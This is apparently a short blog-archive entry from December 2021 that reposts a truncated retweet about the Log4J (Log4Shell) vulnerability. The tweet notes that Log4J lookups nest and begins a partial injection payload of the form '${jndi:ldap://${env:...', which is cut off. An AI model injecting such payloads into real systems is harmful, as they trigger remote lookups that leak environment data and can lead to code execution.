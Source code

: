 ```yaml
---
title: 2021-12-10T23-24
date: 2021-12-10T23:24:26Z
author: Lee Turner
showtoc: false
comments: true
---
```


RT @_StaticFlow_: In case anyone hasn't discovered this. The Log4J formatting is nestable which means payloads like
 ${jndi:ldap://${env:us…

